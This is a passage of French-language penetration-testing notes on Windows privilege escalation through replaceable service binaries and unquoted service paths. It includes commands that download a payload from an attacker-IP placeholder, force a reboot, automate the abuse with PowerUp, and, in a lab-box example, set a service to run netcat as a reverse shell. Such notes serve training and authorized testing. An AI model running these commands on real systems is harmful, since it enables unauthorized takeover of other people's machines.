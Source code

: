 
**3. Remplacer le Binaire et Redémarrer le Service**
```powershell
# Sauvegarder l'original (optionnel mais recommandé)
move "C:\chemin\vers\service.exe" "C:\chemin\vers\service.exe.bak"
# Transférer et remplacer le binaire
# (Ex: iwr -uri http://<IP_ATTAQUANT>/adduser.exe -Outfile "C:\chemin\vers\service.exe")
copy C:\temp\adduser.exe "C:\chemin\vers\service.exe"

# Tenter de redémarrer le service
net stop NomDuService
net start NomDuService
# Ou via PowerShell
Stop-Service -Name "NomDuService"
Start-Service -Name "NomDuService"
```

**Si le redémarrage est refusé (Access Denied) :**
Vérifiez le mode de démarrage du service. S'il est en "Auto", un redémarrage du système déclenchera le payload.
```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
# mysql Auto
PS C:\Users\dave> whoami /priv # Vérifier SeShutdownPrivilege
# ...
# SeShutdownPrivilege           Shut down the system                 Disabled # ou Enabled
PS C:\Users\dave> shutdown /r /t 0 # Si le privilège est présent
```

**Automatisation avec PowerUp**
```powershell
# Sur la machine cible après avoir chargé PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name 'NomDuServiceCible' # Tente d'abuser automatiquement
# Si Install-ServiceBinary échoue, procéder manuellement comme décrit ci-dessus.
```

**Exemple de Box (Return - Modification de binaire de service)**
```bash
# Uploader nc.exe
# sc.exe config <NOM_SERVICE> binPath="C:\chemin\vers\nc.exe -e cmd.exe <IP_ATTAQUANT> <PORT>"
# sc.exe stop <NOM_SERVICE>
# sc.exe start <NOM_SERVICE>
```

## Chemins de Service non Quotés (Unquoted Service Paths)
> Les services avec des chemins non quotés contenant des espaces peuvent être exploités en plaçant un exécutable malveillant dans le chemin.

**1. Identifier les Chemins de Service non Quotés**
```powershell
# Avec wmic (plus fiable pour les guillemets)
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""
# Exemple de sortie :
# GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
Le chemin `C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe` n'est pas quoté. Windows essaiera d'exécuter :
1.  `C:\Program.exe`
2.  `C:\Program Files\Enterprise.exe`
3.  `C:\Program Files\Enterprise Apps\Current.exe`
4.  `C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe`
